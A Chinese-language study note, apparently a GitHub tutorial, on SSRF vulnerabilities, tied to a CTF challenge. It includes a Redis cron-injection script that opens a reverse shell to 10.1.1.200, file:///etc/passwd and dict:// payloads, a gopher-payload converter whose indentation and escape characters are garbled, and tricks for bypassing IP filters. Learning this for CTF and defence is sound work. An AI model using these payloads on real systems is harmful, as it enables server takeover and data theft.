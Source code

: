 # SSRF 漏洞

### 预备知识

bash 相关知识：[linux反弹shell](https://blog.csdn.net/Auuuuuuuu/article/details/89059176)        [反弹shell](https://blog.csdn.net/God_XiangYu/article/details/100151075?utm_medium=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.edu_weight&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.edu_weight)

## 0x01 定义

SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

## 0x02 漏洞判断

- 回显
- 延时(谷歌访问不到，百度迅速返回)
- DNS

## 0x03 相关函数

```
file_get_contents 既可以读取文件，又可以发起请求
fsockopen 打开一个网络链接
curl_exec
```

常用linux操作

```
常用的linux操作：
nc -lvp 1234 #监听1234端口
netstat -tunlp #检测端口开放情况
tcpdump  -nne  -i  eth0  port  6666 #抓6666的包
```

## 0x04 危害

1. 扫描开放端口，扫描服务
2. file:///协议读取文件，**gopher**万精油协议

```
file:///etc/passwd
dict://127.0.0.1:80
```

​	dict协议可以探测开放的端口

3.gopher 协议

<img src="https://i.loli.net/2020/12/27/o4eshfdajqnpLXc.png" alt="image.png" style="zoom:67%;" />

#### 对于redis的一个利用

参考题目：2020网鼎杯地SSRFME

**限制**：

- redis无密码

- cron 反弹shell

- web ssrf->gopher

  ```
  #shell.sh
  echo -e "\n\n\n*1/ * * * * bash -i >& /dev/tcp/10.1.1.200/666  0>&1\n\n\n\n"|/usr/redis/redis-cli -h $1 -p $2 -x set 1
  /usr/redis/redis-cli -h $1 -p $2 config set dir /var/spool/cron/
  /usr/redis/redis-cli -h $1 -p $2 config set dbfilename root
  /usr/redis/redis-cli -h $1 -p $2 save
  /usr/redis/redis-cli -h $1 -p $2 quit
  """ 在Redis的第0个数据库中添加key为1，名为root的定时任务，value字段最后会多一个n是因为echo重定向最后会自带一个换行符，位置为CentOS机器的/var/spool/cron/，10.1.1.200为获取反弹shell的本地IP地址，666为反弹shell的监听端口，可随意设置。"""
  -h host -p port 
  $1 $2 是命令行传入的参数
  ```

具体内容查看redis攻防目录

`socat  -v tcp-listen:2333,fork  tcp-connect:127.0.0.1:6379 将本地的2333端口转发到Redis服务器的6379端口，访问本地的2333端口其实是访问Redis服务器的6379端口。`

协议转换脚本

```
#coding: utf-8
#author: JoyChou
#usage:    python tran2gopher.py socat.log
import sys

exp = ''

with open(sys.argv[1]) as f:
for line in f.readlines():
if line[0] in '><+':
continue
# 判断倒数第2、3字符串是否为r
elif line[-3:-1] == r'r':
# 如果该行只有r，将r替换成%0a%0d%0a
if len(line) == 3:
exp = exp + '%0a%0d%0a'
else:
line = line.replace(r'r', '%0d%0a')
# 去掉最后的换行符
line = line.replace('n', '')
exp = exp + line
# 判断是否是空行，空行替换为%0a
elif line == 'x0a':
exp = exp + '%0a'
else:
line = line.replace('n', '')
exp = exp + line
print exp
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2354192/1598520163942-7f260329-ce30-4920-ae66-5e99ff4ea4e4.png)

## 0x05 bypass

### IP限制

```
• 添加端口，如果不加，默认80口，绕过对IP的限制
• 短网址（但是有时候不支持302）
• 指向任意ip地址的xip.io域名（DNS解析）
• IP限制绕过
• IP地址进制转换127.0.0.1 =》八进制：0177.0.0.1
• 十六进制=》0x7f000001
• 十进制：源地址=》十六进制=》十进制
• 结合协议
• http://www.baidu.com@192.168.0.1/以什么用户名访问某一个网站
 DNS rebiding
 字符编码 https://www.cnblogs.com/dem0/p/14196924.html
```

